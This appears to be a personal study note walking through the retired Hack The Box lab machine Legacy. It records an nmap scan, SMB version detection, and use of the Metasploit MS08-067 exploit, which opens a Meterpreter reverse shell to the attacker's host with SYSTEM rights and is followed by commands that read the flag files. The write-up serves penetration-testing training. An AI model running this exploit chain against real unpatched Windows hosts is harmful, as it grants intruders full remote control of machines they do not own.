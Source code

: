 Type: #windows 
Level: #easy
Link: <https://app.hackthebox.eu/machines/Legacy>
Tags : #TCM
Tools: [[NMAP]] [[SMBCLIENT]] [[METASPLOIT]]	

## Pentesting of retired HTB VM Legacy
### Following walkthrougt of TCM on udemy

Info on the VM : Windows with IP 10.10.10.4

First let's do a classic nmap scan  
`sudo nmap -A -T4 -p- 10.10.10.4`

Result popping up  
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-03 09:05 EDT
Nmap scan report for 10.10.10.4
Host is up (0.041s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server

Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (92%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP4 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (91%), Microsoft Windows XP SP2 or SP3 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP Professional SP3 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m02s, deviation: 2h07m16s, median: 4d22h59m02s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:a5:9c (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-08T18:08:12+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   45.81 ms 10.10.14.1
2   45.09 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.94 seconds
```

We got the ports :

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
```

**139** and **445** are [[SMB-SAMBA]] ports which is a common attack vector

We also got the OS version : [[Windows XP]] 

Try to connect to SMB :

```
smbclient -L \\\\10.10.10.4\\                                                                                                                                                                                                                                                                                     1 ⨯
Enter WORKGROUP\kali's password: 
session setup failed: NT_STATUS_INVALID_PARAMETER
```

So we need the SMB version.  
Starting up [[METASPLOIT]] :

```
msfconsole
search smb_version
use auxiliary/scanner/smb/smb_version
options
RHOSTS = 10.10.10.4
```

Results of the scan :

```
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.4:445        - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[+] 10.10.10.4:445        -   Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB)
[*] 10.10.10.4:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Exploit :
```
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
run

```

Got reverse shell :
```
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.7:8923 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.7:8923 -> 10.10.10.4:1031) at 2021-04-03 12:20:03 -0400

meterpreter > userid
[-] Unknown command: userid.
meterpreter >
```

To know the user ([[Important windows commands]]):  `getuid`

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

user flag :

```
shell
cd c:\Documents and Settings\john\Desktop
type user.txt
```

root flag :
```
shell
cd c:\Documents and Settings\Administrator\Desktop
type root.txt
```

And voilà.

#pwned